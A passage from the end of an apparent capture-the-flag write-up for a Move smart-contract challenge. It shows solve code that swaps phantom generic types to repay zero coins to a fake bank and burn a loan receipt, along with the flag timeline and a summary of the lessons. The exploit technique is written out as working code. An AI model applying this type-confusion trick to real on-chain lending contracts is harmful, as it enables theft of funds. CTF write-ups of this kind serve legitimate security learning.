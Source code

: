 ```rust
        /* bribe the guard — flag condition satisfied */
        bribe_guard(guard, loot);

        /* repay 0 CC to the FAKE bank → resets debt & lets us burn the receipt */
        let zero_coin = balance::zero<CRYON_CREDITS>().into_coin(ctx);
        repay<CRYON_CREDITS, S_CRYON_CREDITS_HA>(&mut acct, &mut fake_bank, zero_coin);
        consume_receipt<CRYON_CREDITS>(&mut acct, receipt);

        /* park leftover key objects on-chain so nothing non-droppable lingers */
        transfer::public_share_object(acct);
        transfer::public_share_object(fake_bank);
        transfer::public_transfer(fake_cap, ctx.sender());
    }
}

```

### Client-side argument list

Only two objects are needed:

```rust
const PARAMS_LIST: [(u8,u8); 2] = [
    (1,2),   // &mut CryonUnderbank (real bank)
    (1,1),   // &mut CouncilGuard
];
```

The Rust framework passes them as mutable references in that order.



### Flag timeline

1. `solve` mutates `guard`, returns.
2. Framework calls `is_solved(guard)` → succeeds.
3. Server prints

   ```
   [SERVER] Correct Solution!
   [SERVER] Congrats, flag: justCTF{...}
   ```

### TL;DR

* **Phantom generics are part of a type’s identity** – swapping them lets
  you side-step per-type accounting if developers forget to tie them
  back to concrete data.
* A post-condition should always be enforced by *whoever relies on it*:
  here `is_solved` blindly trusts `bribe_guard`.
* Resource-safety errors at compile time often hint at creative
  work-arounds rather than roadblocks – we used a fake bank solely to
  dispose of a non-droppable receipt.


---